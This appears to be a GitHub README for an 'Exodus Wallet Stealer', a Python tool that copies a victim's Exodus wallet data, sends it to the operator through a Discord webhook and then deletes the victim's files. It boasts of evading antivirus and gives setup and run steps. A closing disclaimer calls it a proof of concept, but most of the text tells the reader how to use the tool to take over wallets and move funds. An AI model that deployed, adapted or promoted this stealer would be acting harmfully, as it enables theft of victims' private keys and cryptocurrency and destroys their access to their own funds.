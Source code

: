 # Exodus Wallet Stealer

Working Exodus Wallet Stealer to steal Exodus wallets, private keys, public keys and crypto in general, the stealer downloads a backup of the exodus appdata and then sends it to you via a discord webhook, once you recieve the webhook message the files are deleted so the wallet can no longer be accessed by the user, you can then download the files and drag and drop them into your appdata and reload your exodus.

After doing this you will have full access to all there stuff including private keys, you could then send and recieve crypto through that account.

The program once compiled properly is not detected by Anti-Virus at all and this makes it very dangerous malware.

## Video
https://user-images.githubusercontent.com/122122838/228079770-cb0463dc-4afe-4e29-89d5-148389b54730.mp4

## Setup
Download the project files then follow the instructions below.

Open `stealer.py` and change this line:
```bash
Discord_Webhook_Client.send_file("WEBHOOK")
```
Remove **WEBHOOK** and add your Discord webhook URL.
    
## Run the program
You can run the stealer by doing the following command:
```bash
python stealer.py
OR 
python3 stealer.py
```

I recommend that you compile this if you wanted to actually use it and this is what cybercrimals would do however I am not gonna show how you can do this as this project is just a proof of concept and supposed to help fight against malware not make it spread more.

## NOTE:
This malware is supposed to explain and show how the malware would operate in a manor that allows the user to run it themselves without causing danage, I do not condone spreading or compiling with the intention to spread this malware and will not and have not shown how to compile it properly and have made it so it is not a complete version of malware. 
